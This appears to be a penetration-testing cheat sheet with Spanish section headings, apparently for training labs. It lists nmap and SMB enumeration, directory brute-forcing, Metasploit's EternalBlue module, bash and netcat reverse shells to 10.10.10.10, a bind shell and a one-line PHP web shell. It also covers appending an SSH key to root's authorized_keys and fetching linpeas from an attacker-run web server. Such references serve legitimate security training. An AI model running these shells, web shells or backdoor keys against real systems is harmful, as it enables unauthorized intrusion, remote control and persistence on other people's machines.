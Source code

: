 # Lista

## Escaneo de servicios

* `nmap 10.129.42.253` - Run nmap on an IP
* `nmap -sV -sC -p- 10.129.42.253` - Run an nmap script scan on an IP
* `locate scripts/citrix` - List various available nmap scripts
* `nmap --script smb-os-discovery.nse -p445 10.10.10.40` - Run an nmap script on an IP
* `netcat 10.10.10.10 22` - Grab banner of an open port
* `smbclient -N -L \\\\10.129.42.253` - List SMB Shares
* `smbclient \\\\10.129.42.253\\users` - Connect to an SMB share

## Enumeración web

* `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` - Run a directory scan on a website
* `gobuster dns -d hola.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` - Run a sub-domain scan on a website
* `curl -IL https://www.hola.com` - Grab website banner
* `whatweb 10.10.10.121` - List details about the webserver/certificates
* `curl 10.10.10.121/robots.txt` - List potential directories in robots.txt

## Buscador de exploits

* `searchsploit openssh 7.2` - Search for public exploits for a web application
* `msfconsole` - Start the Metasploit Framework
* `search exploit eternalblue` - Search for public exploits in MSF
* `use exploit/windows/smb/ms17_010_psexec` - Start using an MSF module
* `show options` - MSF: Show required options for an MSF module
* `set RHOSTS 10.10.10.40` - MSF: Set a value for an MSF module option
* `check` - Test if the target server is vulnerable
* `exploit` - Run the exploit on the target server

# Shells y TTY

## Listener y Conexiones

* `nc -lvnp 1234` - Start a nc listener on a local port
* `nc 10.10.10.1 1234` - Connect to a bind shell started on the remote server

## Reverse Shells

* `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` - Send a reverse shell from the remote server
* `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f` - Another command to send a reverse shell from the remote server

## Bind Shells

* `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` - Start a bind shell on the remote server

## Mejora de Shell TTY

* `python -c 'import pty; pty.spawn("/bin/bash")'` - Upgrade shell TTY (1)
* `ctrl+z` then `stty raw -echo` then `fg` then enter twice - Upgrade shell TTY (2)

## Web Shells

* `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` - Create a webshell php file
* `curl http://SERVER_IP:PORT/shell.php?cmd=id` - Execute a command on an uploaded webshell

# Escalada de Privilegios

## Enumeración

* `./linpeas.sh` - Run linpeas script to enumerate remote server
* `sudo -l` - List available sudo privileges

## Ejecución con Sudo

* `sudo -u user /bin/echo Hello World!` - Run a command with sudo
* `sudo su -` - Switch to root user (if we have access to sudo su)
* `sudo su user -` - Switch to a user (if we have access to sudo su)

## Acceso SSH con Claves

* `ssh-keygen -f key` - Create a new SSH key
* `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` - Add the generated public key to the user
* `ssh root@10.10.10.10 -i key` - SSH to the server with the generated private key

# Transferencia de Archivos

## Servidor Web Local

* `python3 -m http.server 8000` - Start a local webserver

## Descarga de Archivos

* `wget http://10.10.14.1:8000/linpeas.sh` - Download a file on the remote server from our local machine
* `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` - Download a file on the remote server from our local machine

## Transferencia SCP y Codificación

* `scp linenum.sh user@remotehost:/tmp/linenum.sh` - Transfer a file to the remote server with scp (requires SSH access)
* `base64 shell -w 0` - Convert a file to base64
